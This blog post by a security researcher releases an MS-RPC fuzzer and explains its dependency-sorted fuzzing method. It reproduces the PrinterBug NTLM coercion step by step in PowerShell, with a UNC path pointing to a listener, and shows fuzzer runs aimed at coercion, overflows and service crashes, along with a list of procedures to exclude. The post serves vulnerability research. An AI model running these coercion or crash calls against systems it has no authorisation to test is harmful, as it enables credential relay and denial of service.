

## Introduction
First, I want to thank everyone for their thoughts and time about reading [my previous blog](https://www.incendium.rocks/posts/Automating-MS-RPC-Vulnerability-Research/) about the approach I took to automate MS-RPC vulnerability research. It was very meaningful to see the white paper getting attention from the infosec community.

This post will dive into the new algorithm/method I designed and implemented for fuzzing. It will describe some results and why these results differ from the default fuzzing approach. Apart from the additional implemented features, the tool will be released with this post as well! All security researchers from over the world can now freely use this tool in their research.

> [Find the tool on GitHub here](https://github.com/warpnet/MS-RPC-Fuzzer)
{: .prompt-tip }

## The procedure dependency problem
Currently, the fuzzer directly formats all parameters for a procedure using the `Format-DefaultParameters` function. If the parameter is "complex", for example a [contex handle](https://learn.microsoft.com/en-us/windows/win32/midl/context-handle), the RPC call will most likely result in an error message. This is because by default we create an instance for these parameters using:
```powershell
return [System.Activator]::CreateInstance($Type)
```
To improve this and actually make a proper call, we should get a valid parameter value (context handle) for the complex type. 

### Sorting procedures and storing complex parameters
The chosen approach is to first sort all the procedures within the RPC interface, depending on what their input and output parameters are. For example, if procedure `Y` outputs a parameter that procedure `X` needs, it will first call procedure `Y` and store it's output parameter in a list. When it's procedure `X` its turn, it will look in the list of stored output parameters and use it.

The following design shows how the whole fuzzing workflow now works:



### Testing the new method
The big question is: Does this actually work? Can this fuzzing method invoke more successful RPC calls than the initial method? And using this, can we discover more vulnerabilities? To test this, I first looked for a good candidate to test. A good candidate is the [Printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) vulnerability, which depends on a valid context handle.

The Printerbug vulnerability works as follows: We first connect to the RPC interface using a named pipe endpoint. We can also just use a ALPC port, if we exploit this locally. Next, we create the required parameters for the `RpcOpenPrinter` method and invoke the call. We save the output parameter (context handle) of `RpcOpenPrinter` in a variable. Next, we make the RPC call `RpcRemoteFindFirstPrinterChangeNotificationEx` using the variable containing the context handle parameter.

In theory, the fuzzer should now be able to discover Printerbug, because `RpcRemoteFindFirstPrinterChangeNotificationEx` will be parsed a valid context handle. Let's put it to the test. We are only interested in the vulnerable RPC interface `12345678-1234-abcd-ef00-0123456789ab`, so we first create an object for this interface and parse it to the `Get-RpcServerData` cmdlet.

```powershell
$vulnrpcint = Get-RPCServer -DbgHelpPath "$env:systemdrive\Program Files (x86)\Windows Kits\10\Debuggers\x64\dbghelp.dll" -FullName "$env:systemdrive\Windows\System32\spoolsv.exe" |? {$_.InterfaceId -eq '12345678-1234-abcd-ef00-0123456789ab'}

$vulnrpcint | Get-RpcServerData -OutPath output

[+] dbghelp.dll successfully initialized
[+] Getting RPC interfaces
[+] Found 1 RPC Interface(s)
[+] Saved RPC interfaces, Endpoints and Procedures of target to 'output\rpcServerData.json'
[+] To fuzz please run 'output\rpcServerData.json' | Invoke-RpcFuzzer -OutPath 'output'
```
Next, we parse the `rpcServerData.json` file to the fuzzer using the new method `sorted`.
```powershell
'output\rpcServerData.json' | Invoke-RpcFuzzer -OutPath 'output' -FuzzerType sorted

[+] dbghelp.dll successfully initialized
[+] Starting fuzzer...
[+] Completed fuzzing
[+] To load data into Neo4j use: '.\output\Allowed.json' | Import-DatatoNeo4j -Neo4jHost '127.0.0.1:7474' -Neo4jUsername 'neo4j'
```
This outputs the following files: `Allowed.json`, containing the allowed fuzzing results, `Error.json`, containing the fuzzing results of error messages, and `log.txt`, containing the logs of RPC calls made. Using the logfile, we can determine in what order the procedures were called. In theory, the `RpcOpenPrinter` procedure should've been called first before `RpcRemoteFindFirstPrinterChangeNotificationEx`.

```txt
RPCserver: spoolsv.exe 
Interface: 12345678-1234-abcd-ef00-0123456789ab 
Procedure: RpcOpenPrinter
Params: p0=\incendiumrocks__R5KMAnCHxF.IhNVkOu
p2=\incendiumrocks__)0BPq;M4rv}<e#-fQ
p3=Struct_0 (Complex)
p4=63
------------------------

<SNIPPED>

RPCserver: spoolsv.exe 
Interface: 12345678-1234-abcd-ef00-0123456789ab 
Procedure: RpcRemoteFindFirstPrinterChangeNotificationEx
Params: p0=NtCoreLib.Ndr.Marshal.NdrContextHandle (Complex)
p1=22
p2=38
p3=\incendiumrocks__w+zX],1>&
p4=56
p5=System.Nullable`1[[Struct_44, a0igur11.out, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null]] (Complex)
------------------------
```
Great, the order is correct. However, the `RpcRemoteFindFirstPrinterChangeNotificationEx` still returned a error message. 
```json
{
    "MethodName": "RpcRemoteFindFirstPrinterChangeNotificationEx",
    "Endpoint": "\\RPC Control\\LRPC-1d05743e235fb46893",
    "ProcedureName": "RpcRemoteFindFirstPrinterChangeNotificationEx",
    "MethodDefinition": "Int32 RpcRemoteFindFirstPrinterChangeNotificationEx(NtCoreLib.Ndr.Marshal.NdrContextHandle, Int32, Int32, System.String, Int32, System.Nullable`1[Struct_44])",
    "Service": "Spooler",
    "FuzzInput": "p0=NtCoreLib.Ndr.Marshal.NdrContextHandle (Complex)\r\np1=22\r\np2=38\r\np3=\\incendiumrocks__w+zX],1>&\r\np4=56\r\np5=System.Nullable`1[[Struct_44, a0igur11.out, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null]] (Complex)",
    "Errormessage": "Exception calling Invoke with 2 argument(s): (0x800706F7) - The stub received bad data."
}
```
Why is this? Well if we take a look at the value of the context handle that `RpcOpenPrinter` returned, it is still a `null` context handle. This can be seen if we do the whole attack chain manually.

```powershell
$vulnrpcint = Get-RPCServer -DbgHelpPath "$env:systemdrive\Program Files (x86)\Windows Kits\10\Debuggers\x64\dbghelp.dll" -FullName "$env:systemdrive\Windows\System32\spoolsv.exe" |? {$_.InterfaceId -eq '12345678-1234-abcd-ef00-0123456789ab'}
$client = Get-RPCClient -Server $vulnrpcint
Get-RpcClient: Cannot bind argument to parameter 'Server' because it is null.
$client = Get-RPCClient -Server $vulnrpcint
Connect-RpcClient -Client $client
$method = $client.GetType().GetMethods() |? { $_.Name -eq 'RpcOpenPrinter' }
$p3 = $method.GetParameters()[2]
$complex = [Activator]::CreateInstance($p3.ParameterType)
$retval = $client.RpcOpenPrinter("\\127.0.0.1", '', $complex, 0x00020002)
$retval

p1                                                           retval
--                                                           ------
Handle: 00000000-0000-0000-0000-000000000000 - Attributes: 0   1801
```
My best guess was that it cannot connect to the specified printer, since `1801` is being returned, which is the error code for this on Windows. It turns out we must specify the IPv4 of the network interface of the host, not `127.0.0.1`.

```powershell
$retval = $client.RpcOpenPrinter("\\172.26.80.150", '\\172.26.80.150', $complex, 0x00020002)
$retval

p1                                                           retval
--                                                           ------
Handle: bf602292-de1b-41e5-852c-831cc1d0c1d8 - Attributes: 0      0
```

And now we can also invoke the `RpcRemoteFindFirstPrinterChangeNotificationEx` procedure.
```powershell
$client.RpcRemoteFindFirstPrinterChangeNotificationEx($retval.p1, $PRINTER_CHANGE_ADD_JOB, 0, "\\192.168.10.141\x",0, $null);

87
```

This shows that some procedures are very picky before a valid context handle returned. We can also provide our own IP in a UNC path for string input using the fuzzer:
```powershell
'output\rpcServerData.json' | Invoke-RpcFuzzer -OutPath 'output' -FuzzerType sorted -StringInput "\\172.26.80.150" -minIntSize 0 -maxIntSize 1

[+] dbghelp.dll successfully initialized
[+] Starting fuzzer...
[+] Completed fuzzing
[+] To load data into Neo4j use: '.\output\Allowed.json' | Import-DatatoNeo4j -Neo4jHost '127.0.0.1:7474' -Neo4jUsername 'neo4j'
```

If we now take a look at the `Allowed.json` file, we see that a valid context handle was created by `RpcOpenPrinter`.
```json
{
    "MethodName": "RpcOpenPrinter",
    "Endpoint": "\\RPC Control\\LRPC-1d05743e235fb46893",
    "ProcedureName": "RpcOpenPrinter",
    "MethodDefinition": "RpcOpenPrinter_RetVal RpcOpenPrinter(System.String, System.String, Struct_0, Int32)",
    "Service": "Spooler",
    "FuzzInput": "p0=\\\\172.26.80.150\r\np2=\\\\172.26.80.150\r\np3=Struct_0 (Complex)\r\np4=0",
    "Output": "p1: Handle: 6b6289ba-2e2a-411f-a42e-f6a114b8b9d4 - Attributes: 0 retval: 0",
    "WindowsMessage": "0: The operation completed successfully."
}
```
However, the `RpcRemoteFindFirstPrinterChangeNotificationEx` procedure is still not happy with this context handle.
```json
{
    "MethodName": "RpcRemoteFindFirstPrinterChangeNotificationEx",
    "Endpoint": "\\RPC Control\\LRPC-1d05743e235fb46893",
    "ProcedureName": "RpcRemoteFindFirstPrinterChangeNotificationEx",
    "MethodDefinition": "Int32 RpcRemoteFindFirstPrinterChangeNotificationEx(NtCoreLib.Ndr.Marshal.NdrContextHandle, Int32, Int32, System.String, Int32, System.Nullable`1[Struct_44])",
    "Service": "Spooler",
    "FuzzInput": "p0=NtCoreLib.Ndr.Marshal.NdrContextHandle (Complex)\r\np1=0\r\np2=0\r\np3=\\\\172.26.80.150\r\np4=0\r\np5=System.Nullable`1[[Struct_44, uurr42nz.out, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null]] (Complex)",
    "Errormessage": "Exception calling Invoke with 2 argument(s): (0x80070006) - The handle is invalid."
}
```
What is interesting, is that some procedures did get processed by the RPC server with this context handle, but return Windows Message `6 - The handle is invalid.`.
```json
{
    "MethodName": "RpcStartPagePrinter",
    "Endpoint": "\\RPC Control\\LRPC-1d05743e235fb46893",
    "ProcedureName": "RpcStartPagePrinter",
    "MethodDefinition": "Int32 RpcStartPagePrinter(NtCoreLib.Ndr.Marshal.NdrContextHandle)",
    "Service": "Spooler",
    "FuzzInput": "p0=NtCoreLib.Ndr.Marshal.NdrContextHandle (Complex)",
    "Output": "6",
    "WindowsMessage": "6: The handle is invalid."
}
``` 
This means that our solution probably works, at least partially. The reason that some fail is that we sort the procedures based on their parameters. If two procedures within the same interface provide the same complex parameter type e.g., `NtCoreLib.Ndr.Marshal.NdrContextHandle`, then chances are we still provide other procedures an invalid context value. An idea here is to store all valid context handles instead of one valid one, and loop over these and see if one succeeds.

On the other side, it can be interesting to see the RPC server's behavior if we sent semi-valid context handles. As we have already seen from the previous examples, for some procedures the server returns an exception for semi-invalid context handles, but for some the server processes the call, but returns 6 (invalid handle). This may lead to interesting scenario's if the RPC server doesn't handle invalid context handles well.

### What fuzzing method to use?
As you may have noticed, the fuzzer includes a parameter called `-FuzzerType`. This can either be set to `default` or `sorted` for the new fuzzing method. If the parameter is not specified, the default fuzzer will be used.

I chose this approach because when testing the `sorted` type against some non-fixed vulnerabilities that I discovered with the `default` type, that it couldn't be replicated. In most cases this is because of system nullable parameters suddenly being parsed a valid value. As example:

```cs
UmpoRpcReadFromUserPowerKey(System.Nullable[guid] p0, System.Nullable[guid] p1, System.Nullable[guid] p2, int p3, int p4, byte[] p5, int p6, System.Nullable[NtCoreLib.Ndr.Marshal.NdrEnum16] p8)
```

With the `default` fuzzing method, a `null` value is being created for all `System.Nullable[guid]` parameters using PowerShell reflection:
```powershell
return [System.Activator]::CreateInstance($Type)
```

[This triggers a BSOD](https://www.incendium.rocks/posts/Unplugging-Power-Service/) because for the `System.Nullable[guid]` is being dereferenced as NULL pointer in memory. The Power Service on Windows in this case lacks a proper check. But with the `sorted` fuzzer, a valid `GUID` could be parsed instead because another procedure within the RPC interface could return the GUID as output parameter.

This means that both fuzzing methods are effective in their own way. Just remember that two fuzzing methods are available and that it can be rewarding to use both and see the difference in results.

## Some fuzzing and attack scenario's
I thought that it would be valuable to showcase some fuzzing approaches one may take to discover vulnerabilities using the tooling. It will also demonstrate what the fuzzer is capable of so far.

### Multiple iterations
By default, the fuzzer only invokes a procedure once for each available endpoint. But we can change this using the `-iterations` parameter. For example, let's say we think the `RpcOpenPrinter` procedure is interesting, and we want to see if we can crash the spooler service by opening a lot of connections.

```powershell
'output\rpcServerData.json' | Invoke-RpcFuzzer -OutPath 'output' -FuzzerType sorted -StringInput "\\172.26.80.150" -minIntSize 0 -maxIntSize 1 -iterations 10000 -Procedure RpcOpenPrinter
```

In this case, the spooler service handled it well, but who knows what services and procedures are vulnerable?

### NTLM privilege escalation primitives (Coerce)
Finding new Coerce vulnerabilities like PetitPotam or PrinterBug is also possible. I actually found a couple using the tooling and reported them to Microsoft. To do so, set up a remote listener like [Responder](https://github.com/SpiderLabs/Responder) and point the fuzzer to use the IP in a UNC path for strings:

```powershell
'output\rpcServerData.json' | Invoke-RpcFuzzer -OutPath 'output' -Mode remote -remote_host 172.26.80.150
```

When this mode is specified, the fuzzer will create a UNC path for string inputs instead to see if a NTLM request is being made.

### Point it to a file
We can tell the fuzzer to set all string values to a file path and see which procedures interact with it and from what context. High privileged identities writing to our file perhaps? Who knows?

```powershell
'output\rpcServerData.json' | Invoke-RpcFuzzer -OutPath 'output' -StringInput "C:\Windows\Folder\file.txt"
```

### Overflowing
We can also parse large values for Strings, Integers, and Byte arrays. For Integers we can also provide negative values. 

```powershell
'output\rpcServerData.json' | Invoke-RpcFuzzer -OutPath 'output' -minStrLen 1000 -maxStrLen 2000 -minIntSize -999999 -maxIntSize 0 -minByteArrLen 99999 -maxByteArrLen 999999
```
Keep in mind that for Strings, the log files and the fuzzing results can become very large.

### Blacklisting procedures
During my research, some procedures would always take very long to call. This made the fuzzing process very slow and painful. For other procedures we want to exclude them because they simply crash the system or our user profile (blink blink). Here some of the procedures I recommend excluding:
```txt
s_VerifyWithSymmetricPopKey
s_EncryptWithSymmetricGcmPopKey
s_EncryptWithSymmetricPopKey
s_ImportSymmetricPopKey
svcQueryUserContextFromSid
svcQuerySessionVirtualAccountToken
FmMuxSrvShutdown
svcIsCandidateUser
svcRefreshCandidateUser
svcLaunchShell
NetrQueryServiceAccount
NetrEnumerateTrustedDomainsEx
NetrQuerySecureChannelDCInfo
```
To exclude some of these procedures, create a file with each procedure on a line and parse it to the `-Blacklist` parameter.
```powershell
'output\rpcServerData.json' | Invoke-RpcFuzzer -OutPath 'output' -Blacklist blacklist.txt
```

## Releasing the tool
The whole idea is to gain insights into MS-RPC implementations that may be vulnerable using an automated approach and make it easy to visualize the data. By following this approach, a security researcher will hopefully identify interesting RPC services in such a time that would take a manual approach significantly more.

And so, I am releasing [the tool open sourced on GitHub](https://github.com/warpnet/MS-RPC-Fuzzer). Security researchers from all over the world can now use this fuzzer within their tool set.

Some disclaimers:

> This fuzzer almost certainly will break stuff in your OS (even from a low privileged user context), so please run it in a isolated and controlled environment and with permission!
{: .prompt-danger }

> I am not responsible for any damage of the usage made using this tool. These are for legal purposes only. Use at your own risks.
{: .prompt-warning }

### Support for the tool and contribution
I am releasing the tool under Warpnet, my employer. I plan to further develop the tooling for better fuzzing and overall support. Everyone is free to make a pull request, send feature requests or submit bugs/problems with the tool.

## Final words
Again, thanks to everyone sharing their thoughts about the tool. It made me very excited to perfect the tooling and open source it to security researches. I started this project for my thesis at the Hanze University of Applied Sciences. The approach and results made it a very successful ending of my study. I look forward to further develop my skills as an ethical hacker and security researcher, and hopefully discover a lot more vulnerabilities.
